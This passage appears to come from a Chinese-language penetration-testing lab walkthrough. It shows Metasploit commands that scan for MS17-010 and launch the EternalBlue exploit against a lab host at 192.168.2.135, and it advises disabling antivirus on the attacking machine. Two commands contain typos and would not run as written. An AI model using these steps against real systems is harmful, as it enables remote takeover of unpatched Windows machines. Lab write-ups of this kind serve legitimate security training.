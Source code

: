 2. 发现ms17-010，使用msf扫一下

   ``` shell
   search ms17_010
   use 3
   set rhost 192.168.2.135
   exploit
   ```

   ![14.png](img/ATT&CK1/png14.png)

   ![15.png](img/ATT&CK1/png15.png)

3. 扫描确认漏洞存在，使用exp进行利用（记得先把攻击机器上的杀软关掉，否则攻击会被拦截）

   ``` shell
   use windows/smb/ms17_010_eternalblue
   set 192.168.2.135
   expoit
   ```

   ![16.png](img/ATT&CK1/png16.png)
